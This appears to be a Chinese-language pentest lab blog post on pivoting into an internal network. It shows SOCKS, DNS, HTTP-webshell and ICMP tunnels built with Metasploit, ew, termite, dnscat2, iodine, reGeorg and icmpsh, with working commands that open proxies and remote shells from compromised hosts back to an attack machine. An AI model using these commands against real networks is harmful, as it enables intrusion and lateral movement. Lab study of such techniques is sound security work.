

网络代理
本文介绍4种常见的网络协议代理以及进行代理的常用工具。
代理相当于将内网撕开一个口子将攻击机放进内网。
攻击机：kali：192.168.43.30
客户机：win7：192.168.43.78
客户机1：win2k8：192.168.43.127
1.socks代理
1.cs
选择监听端口
2.msf
msf生成攻击载荷在客户机，开启监听得到一个session，然后使用run post/multi/manage/autoroute模块在客户机和攻击机之间添加一个路由
run autoroute -p查看路由
use auxiliary/server/socks_proxy开启socks代理
exploit执行，jobs查看任务
此socks相当于一个vpn需要自己连接才能使用，此时需要借助proxychains代理链来调用socks代理
编辑代理链的文件/etc/proxychains.conf设置代理，设置socks
此时使用proxychains连接客户机所在内网的任何一台机器都OK
3.ew
1.正向代理
在客户机1上开启socks服务监听指定端口：ew_win32.exe -s ssocksd -l 1080 （-s：指定协议，-l:指定端口）
由于攻击机和客户机IP不一样，所以需要改变攻击机代理链配置文件
连接客户机1即可：proxychains rdesktop 192.168.43.127
本次实验win7也能成功。
2.反向代理
在客户机开启一个socks代理，把本地的流量从port1转发到port2端口：ew_win32.exe -s rcsocks -l port1 -e port2
在客户机1开启一个socks代理把本地的流量转发到客户机的port2上：ew_win32.exe -s rssocks -d host1 -e port2
编辑代理链的文件/etc/proxychains.conf设置代理，设置socks为客户机
连接客户机1即可
流量走向
攻击机<—>客户机1:port<—>客户机1:port2<—>客户机2
4.termite
客户端监听端口：agent_win32.exe -l port
服务端连接到客户端即可：./admin_linux_i586 -c 客户端ip -p 客户端port
根据提示选择对应的功能即可，但是在使用socks时候要编辑代理链为本地
本次只测试了win7，没有测试win2k8
2.dns协议
1.dnscat
1.dnscat2
这里由于我新版的机器安装ruby很麻烦，所以把以前的贴图放出来（kali，win2k8）
分为客户端和服务端，但是客户端只支持Windows
服务端建立监听(服务端需要ruby环境)：ruby dnscat2.rb --dns "domain=pentestlab, host=lhost" --no-cache
客户端连接到服务端：dnscat2-v0.07-client-win32.exe --dns server=服务端ip
连接成功
可以执行的命令
查看会话信息：windows
与会话进行交互：session -i id
进行交互之后可以执行的命令
如何得到windows的cmd？
执行shell，创建一个新的会话信息

返回主界面查看cmd会话建立
进入cmd交互
2.iodine（速度快，不支持win10）
iodine基于C语言开发，分为服务端程序iodined和客户端程序 iodine，kali系统已内置。支持EDNS、base32，base64，base128等多种编码规范
攻击机执行：iodined -p 1234 -f -DD 192.168.43.30 abc.com
客户机执行：iodine -p 1234 -f -r -T TXT 192.168.43.30 abc.com
我没复现出来。。。
3.http协议
这一个板块，由于我没有配环境，直接将之前的拿出来了。。。。
1.reduh（对aspx好一丢丢）
支持aspx、jsp、php(php不稳定，以下为jsp环境测试)
把webshell上传至客户端，访问以后成功出现以下情况
服务端连接，（服务端是Java环境）：java -jar reDuhClient.jar webshell地址
连接成功会监听本地的1010端口，使用nc连接即可：nc -vv localhost 1010
但是只能进行端口转功能，将目标转发至本地：[createTunnel]lport:127.0.0.1:rport
但是连接后不稳定会断开
2.tunna（对aspx好一点）
支持aspx、jsp、php
将webshell传至客户机后访问成功出现以下情况
服务端执行：pyhon proxy.py -u webshell地址 -l 4444 -r 3389 -s -v --no-socks
直接报错。。。
3.regeorg（前两款均是转发端口，此款工具在远程端开启一个socks服务）
支持jsp、aspx、php、ashx
将webshell上传至客户端成功后访问显示
服务端在本地指定端口上开启一个socks服务：python reGeorgSocksProxy.py -p port -u webshell地址
设置本地的代理链为指定的端口

连接即可
但是http比较慢
4.neo-regeorg
支持加密
服务端使用参数k指定密码，成功后会在相应文件夹下生成对应的webshell:python neoreg.py generate -k 密码

使用同reGeorg类似
4.icmp协议
1.icmpsh
执行前在服务端执行：sysctl -w net.ipv4.icmp_echo_ignore_all=1
然后服务端继续执行：python icmpsh_m.py lhost rhost
执行完后不会有什么反应，在客户端使用参数t连接服务端：icmpsh.exe -t rhost
成功后服务端得到一个shell
本次实验在win2008上进行的，因为win7连接失败了，连接后一直接收不到。